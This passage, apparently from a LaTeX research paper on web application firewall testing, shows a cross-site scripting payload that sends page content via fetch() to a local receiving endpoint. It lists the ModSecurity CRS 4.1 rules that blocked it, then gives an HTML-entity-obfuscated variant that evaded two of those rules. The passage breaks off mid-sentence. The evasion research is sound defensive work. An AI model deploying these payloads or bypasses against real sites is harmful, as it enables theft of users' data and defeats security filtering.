 A request containing this payload was blocked by the ModSecurity firewall using \acrshort{crs} 4.1 based on 4 rule triggers:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=Secret exfiltration XSS blocked, label={lst:storedxssblocked}]
<payload><a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a></payload>

<message>"Possible Server Side Request Forgery (SSRF) Attack: Cloud provider metadata URL in Parameter"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "88"] [id "934110"]<fileDetails>
<MatchedData>"http://localhost"</MatchedData>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "225"] [id "941170"]<fileDetails>
<MatchedData>"javascript:[...]"</MatchedData>

<message>"Node-Validator Deny List Keywords"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "252"] [id "941180"]<fileDetails>
<MatchedData>".innerhtml"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "323"] [id "941210"]<fileDetails>
<MatchedData>"javascript:v"</MatchedData>
\end{lstlisting}

\acrshort{html} character reference substitution was used to substitute certain characters.
On escaping of the latin character \verb|a| in \verb|j&#97vascript|, the payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

evaded the \acrshort{crs} 4.1 rules with ids \verb|941170| and \verb|941210|.
On escaping the \verb|.| in \\ \verb|getElementsByName('name')[0]&#46innerHTML|, the payload:

